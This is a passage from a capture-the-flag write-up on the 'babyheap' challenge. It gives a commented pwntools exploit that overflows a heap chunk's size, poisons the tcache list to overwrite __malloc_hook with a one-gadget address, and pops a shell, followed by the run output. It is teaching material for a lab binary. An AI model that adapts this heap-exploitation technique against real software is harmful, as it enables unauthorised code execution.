 ```
# This is the chunk whose size value will be overflowed
malloc('3'*8, 0x8)

# Allocate a chunk to overflow that chunk's size with '0x81'
malloc('4'*0xf8 + "\x81", 0xf8)

# Free the overflowed chunk
free(0)


# Allocate overflowed chunk again, however this time we can write more data to it
# because of the overflowed size value. Overwrite the next pointer in the tcache linked
# list in the next chunk with the address of malloc_hook
malloc('1'*0x100 + p64(libcBase + libc.sym["__malloc_hook"])[:6], 0x174)

# Allocate a block on the chunk, so the next one will be to the malloc hook

malloc("15935728", 0x10)

# Calculate the onegadget address, then send it over
onegadget = libcBase + 0xe2383
malloc(p64(onegadget)[:6], 0x10)

# Get the program to call malloc, and get a shell
target.sendline('M')
target.sendline("10")

target.interactive()
```

When we run it:

```
$ python exploit.py
[+] Starting local process './babyheap': pid 27132
[*] running in new terminal: /usr/bin/gdb -q  "./babyheap" 27132 -x "/tmp/pwn84K7wz.gdb"
[+] Waiting for debugger: Done
[*] '/home/guyinatuxedo/Desktop/efwafew/libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
-----Yet Another Babyheap!-----
[M]alloc
[F]ree
[S]how
[E]xit
------------------------
Command:
>

. . .

> $ w
 22:36:10 up  2:44,  1 user,  load average: 0.17, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               19:52   ?xdm?   1:22   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --session=ubuntu
$ ls
babyheap  exploit.py  libc.so
```

Just like that, we popped a shell!
